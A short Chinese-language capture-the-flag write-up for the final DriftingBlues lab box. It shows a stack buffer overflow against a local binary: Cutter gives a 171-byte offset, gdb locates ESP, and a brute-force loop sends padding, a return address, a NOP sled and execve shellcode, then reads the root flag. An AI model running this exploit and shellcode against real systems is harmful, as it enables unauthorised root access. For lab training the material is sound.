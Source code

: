 在 CUTTER 中分析了二进制文件。发现数组大小为 171，这是我们的偏移值


#### 前面的是在kali主机上进行的测试，esp的值和靶机里面的esp的值是不同的,下面才是在靶机中进行提取的

0xbffe48a0:
```c
clapton@debian:~$ gdb -q input
(gdb) run $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')

(gdb) x/ws $esp
x/ws $esp
0xbffe48a0:     U'\x90909090' <repeats 125 times>

clapton@debian:~$ for i in {1..10000}; do (./input $(python -c 'print "A" * 171 + "\xa0\xe4\xff\xbf" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')); done
<7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'));done
```

```css
# cat /root/root.txt
cat /root/root.txt
   
this is the final of driftingblues series. i hope you've learned something from them.

you can always contact me at vault13_escape_service[at]outlook.com for your questions. (mail language: english/turkish)

your root flag:

04D4C1BEC659F1AA15B7AE731CEEDD65

good luck. ( ° ʖ °)

```
在 CUTTER 中分析了二进制文件。发现数组大小为 171，这是我们的偏移值。